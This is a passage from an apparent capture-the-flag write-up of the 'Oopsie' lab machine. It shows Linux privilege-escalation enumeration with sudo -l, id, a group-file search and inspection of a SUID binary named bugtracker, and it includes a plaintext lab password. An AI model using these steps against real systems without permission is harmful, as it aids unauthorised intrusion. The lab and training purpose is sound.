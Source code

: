 Before we use any enumeration scripts, we're going to check the basics like 'id' and 'sudo' misconfigurations.

```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ sudo -l
sudo -l
[sudo] password for robert: M3g4C0rpUs3r!

Sorry, user robert may not run sudo on oopsie.

```

Unfortunately, as the user Robert, we are not able to run 'sudo'.

```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

We can see that the user Robert belongs to the `bugtracker` group, which could be our path to gaining admin privileges.

The first thing we're going to do is check if there are any files belonging to that group.

```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ find / -group bugtracker 2>/dev/null
<cdn-cgi/login$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
robert@oopsie:/var/www/html/cdn-cgi/login$ 
```

We found a file. Let's check its permissions and determine its file type.

```bash	
robert@oopsie:/var/www/html/cdn-cgi/login$ ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
<-la /usr/bin/bugtracker && file /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
robert@oopsie:/var/www/html/cdn-cgi/login$ 
```

We see that the file has the SUID bit set, which can be a promising path to privilege escalation. The file likely has root privileges.

We will run the script to observe its behavior

```bash
robert@oopsie:/$ usr/bin/bugtracker
usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 12
12
---------------

cat: /root/reports/12: No such file or directory
```
